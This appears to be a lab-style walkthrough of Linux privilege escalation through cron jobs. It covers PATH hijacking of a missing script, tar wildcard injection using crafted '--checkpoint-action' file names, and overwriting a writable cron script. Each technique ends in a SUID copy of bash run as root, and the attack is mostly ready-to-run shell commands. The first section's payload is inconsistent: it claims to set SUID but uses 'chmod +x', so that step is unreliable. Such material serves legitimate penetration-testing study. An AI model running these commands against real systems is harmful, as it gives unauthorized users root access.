 # Escalation via Scheduled task (Cron)

## Cron Path

### Enumeration

- We have to check in the crontab for example with `cat /etc/crontab` if we can not read this file we still could check other ways to enumerate scheduled task using [payload all the things documentation](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#scheduled-tasks) or an enumeration tool like linpeas
- In our example the system will try to run a file that does not exist (if we ls in home/user we do not see it)   
![image](https://user-images.githubusercontent.com/96747355/170375060-4d8fc104-2b34-4dc8-82e1-86eefe247b1b.png)  
- So we can try to create a file named overwrite.sh and make it escalate privileges

### Exploitation

- `echo 'cp /bin/bash /tmp/bash; chmod +x /tmp/bash' > /home/user/overwrite.sh` we create our overwrite file. Our script will create a bash with suid priv
- `chmod +x /home/user/overwrite.sh` we need to make it executable
- `/tmp/bash -p` we execute it and we get root  
![image](https://user-images.githubusercontent.com/96747355/170377045-4b98a2fb-2d52-43ea-bfc7-1b84f8d78e5a.png)  

## Cron Wildcards

### Enumeration

- `cat /etc/crontab` in our example we have a `/usr/local/bin/compress.sh`  
![image](https://user-images.githubusercontent.com/96747355/170485258-123fce9b-325f-4450-a7c8-de8edf88b3ef.png)  
- We can have a look at the script `cat  /usr/local/bin/compress.sh`  
![image](https://user-images.githubusercontent.com/96747355/170486526-94adfcff-62fd-46d2-8920-72c284644a31.png)  
- The script goes to the user home and makes a backup of the content using a wildcard `*` and stores it in tmp
- We can not modify the script so we need to do something that uses the script to get our privesc. In order to do so we can do command related to tar as the script uses it.

### Exploitation

- `echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/runme.sh` we create a malicious bash
- `touch /home/user/--checkpoint=1` when the scheduled script is going to read the home directory it will have a file named as a tar command, so it will interpret it. This command displays a status message every 1 
- `touch /home/user/--checkpoint-action=exec=sh\ runme.sh` then this command is going to make and action when the checkpoint we created before is hit
- After a minute we can then launch our bash `/tmp/bash -p`
- We should be root!  
![image](https://user-images.githubusercontent.com/96747355/170489169-16815170-1f9e-4822-b9ad-539e6e3ea19c.png)  

## Cron files overwrite

### Enumeration

- `cat /etc/crontab` in our example we will use the file overwrite.sh  
![image](https://user-images.githubusercontent.com/96747355/170490233-f04c2ed3-b9d9-43ff-a28c-9e2f2e5c5044.png)  
- We locate where is the file using `locate overwrite.sh`
- Check the permission on the file we want to overwrite `ls -l /usr/local/bin/overwrite.sh`  
![image](https://user-images.githubusercontent.com/96747355/170490298-b00a49a7-ab58-4410-bfe3-18a45927d3eb.png)  
- We can overwrite it

### Exploitation

- `echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' >> /usr/local/bin/overwrite.sh` We are overwriting the file with a command that will copy bash and give it suid perms
- After a minute we should be able to launch `/tmp/bash -p`
- We should be root!  
![image](https://user-images.githubusercontent.com/96747355/170490883-6c7020b8-fe46-4c8e-9041-c751990ebb33.png)  
